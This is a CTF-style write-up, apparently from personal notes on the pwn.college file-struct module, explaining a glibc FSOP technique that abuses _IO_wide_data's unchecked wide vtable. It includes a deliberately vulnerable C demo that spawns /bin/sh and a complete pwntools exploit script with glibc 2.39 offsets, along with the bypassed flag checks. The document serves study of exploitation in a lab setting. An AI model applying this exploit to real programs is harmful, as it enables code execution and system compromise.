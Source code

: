<details>
<summary><strong>Description</strong></summary>
<p>

This is a fully poc docs for already discussed technique in hieuvd341 blog.
> Test successfully in `glibc 2.35`, `2.38`, `2.39` (same code path)

Too handle with stricter constrainst situations, better see this [note](/fsop/io_paths/pwn_college/readme01.md).

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://aneii11.github.io/p/fsop-code-execution/#targeting-wide_data
- https://niftic.ca/posts/fsop/#_io_wdoallocbuf43
- https://github.com/hieuvd341/super-duper-couscous/blob/master/CTFs/Docs/FSOP/readme.md
- https://www.youtube.com/watch?v=vkUR58xxSFI

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

## Demo code C

Chỉ cần compile code C theo hướng dẫn shogun (dựa theo version glibc):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void win() {
    system("/bin/sh");
}

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    printf("win leak: %p\n", &win);

    char *buf;
    FILE *fp = fopen("/dev/null", "w");
    printf("libc leak: %p\n", stdout);

    buf = malloc(0x100);
    printf("buffer leak: %p\n", buf);
    printf("fake vtable: ");
    read(0, buf, 0x100);

    printf("overwrite file struct: ");
    read(0, fp, 0x100);

    fwrite(buf, 1, 10, fp);

    return 0;
}
```

Cho các leak cần thiết, `win` address, libc base, buf base. Lần `read` đầu tiên sẽ input vào buffer để tạo ra một fake vtable. Lần `read` thứ hai là để overwrite file struct, trigger fsop.

## Demo exploit

Compile trên local với `glibc 2.39`:

```
from pwn import *

exe = ELF("./tmp")
libc = ELF("/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6")
context.binary = exe

script = '''
b *main
b *main + 244
b *main + 291
'''

p = process("./tmp")
#p = gdb.debug("./tmp", gdbscript = script)

p.recvuntil(b"win leak: ")
win = int(p.recvline(), 16)

p.recvuntil(b"libc leak: ")
libc_base = int(p.recvline(), 16) - 0x1d07a0
print(hex(libc_base))

p.recvuntil(b"buffer leak: ")
buffer = int(p.recvline(), 16)
print(hex(buffer))

fakevtable  = p64(0) * (0xE0//8) + p64(buffer + 0xe0 + 8 - 0x68) + p64(win)

fp = FileStructure()
fp.flags = 0xfbad2484
fp._lock = buffer + 0x1000 
fp._wide_data = buffer
fp.vtable = libc_base  + 0x1ce4a0 - 0x38

p.sendafter(b"fake vtable: ", fakevtable)
p.sendafter(b"struct: ", bytes(fp))

p.interactive()
```

<mark>Với các phiên bản glibc khác, chỉ cần thay đổi lại đoạn tính toán libc base và offset của `fp.vtable`  (sao cho gọi được `_IO_wfile_overflow`)</mark>

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

This exploit came from pwn.college **file struct exploit** module:

![](attachments/image00.png)

## `_IO_wide_data`

`wide_data` là một trường tồn tại ở các FILE structure hiện đại. Nó được tạo để xử lí các wide character stream (ex: unicode) Chứa các trường tương tự như FILE. Nó cũng chứa cả vtable pointer luôn.

Trong libc 2.39, `wide_data` được định nghĩa như sau:
[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libio.h#L121)
![](attachments/image01.png)

**Fully exploit**:

1. Fake `file._wide_vtable` tại 1 vùng nhớ ta kiểm soát được.
2. `file.wide_data -> vtable` trỏ đến exploit_vtable
3. overwrite `file.vtable` sao cho `IO_wfile_overflow` được gọi.
4. `_IO_wdoallocbuf` sẽ được gọi.
5. `_IO_wdoallocbuf` sẽ gọi `_IO_wide_data.vtable` **with no check**.

## Call `_IO_wfile_overflow`

Hàm `fwrite` sẽ gọi tới `_IO_new_file_xsputn`.

![](attachments/image06.png)

Exploit sẽ shift vtable đi sao cho thay vì gọi `_IO_new_file_xsputn` thì sẽ gọi `__GI__IO_wfile_overflow`, cách offset lớn nhưng vẫn validate do thuộc vùng `libc vtable area`.

![](attachments/image05.png)

Ở trên là vtable gốc, ở dưới là vtable fake.

## Call `_IO_wdoallocbuf`

Let’s see the flow of `_IO_wfile_overflow`:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/wfileops.c#L406)
![](attachments/image02.png)

To call `_IO_wdoallocbuf` we have to set some flags and value to bypass the check. ~~There’re 3 conditions must be met~~:

- Turn off flag for `_IO_NO_WRITES`, which is `0x0008`.

- Turn off flag for `_IO_CURRENTLY_PUTTING`, which is `0x0800`.

- `f->_wide_data->_IO_write_base == nullptr`. This one is quite easy to set, since the challenge give us 2 buffer.

Theo code path `2.39` thì chỉ cần điều kiện đầu và một trong 2 cái còn lại thỏa mãn (dấu `||` trong `if`). Nhưng `2.35` thì cần cả hai. (Cứ xét đủ just in case).

## Call `_IO_WDOALLOCATE`

Inside the `_IO_WDOALLOCATE` function:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/wgenops.c#L364)
![](attachments/image03.png)

Again, we still have to bypass 2 checks for it to call `_IO_WDOALLOCATE`, which jumps to `_IO_wide_jumps` with no check:

- `fp->_wide_data->_IO_buf_base == nullptr`. Again, this is easy.

- Turn off the flag for `_IO_UNBUFFERED`, which is `0x0002`.

My exploit’s flag is `filestr.flags = 0xfbad2484`, which passed all the check.

And we all done. We just need to fake `fp->_wide_data->vtable` for `win` to fall right into `_IO_WDOALLOCATE` entry which is at `vtable+0x68`. 

Why? 

Ta gọi hàm `win` thông qua `_IO_WDOALLOCATE (fp)`. Và `_IO_WDOALLOCATE (fp)` lại được định nghĩa như sau:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libioP.h#L224)
```
#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
```

Đây chính là điểm tạo ra khác biệt. Khi mình so sánh code của 2 macro `JUMP0` và `WJUMP0` thì thấy `WJUMP0` hoàn toàn không gọi đến `IO_validate_vtable`

- `JUMP0` nè

```
#define _IO_DOALLOCATE(FP) JUMP0 (__doallocate, FP)
#define JUMP0(FUNC, THIS) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS)

# define _IO_JUMPS_FUNC(THIS) \
  (IO_validate_vtable                                                   \
   (*(struct _IO_jump_t **) ((void *) &_IO_JUMPS_FILE_plus (THIS)	\
			     + (THIS)->_vtable_offset)))
```

- `WJUMP0` nè

```
#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
#define WJUMP0(FUNC, THIS) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS)
#define _IO_WIDE_JUMPS_FUNC(THIS) _IO_WIDE_JUMPS(THIS)
#define _IO_WIDE_JUMPS(THIS) \
  _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE, _wide_data)->_wide_vtable
```

Nói chung là không có cái check nào ở đây cả.

</p>
</detaials>

<details> 
<summary><strong>Attention</strong></summary>
<p>

While exploit, becareful when set the `_lock` value

![](attachments/image04.png)

</p>
</details>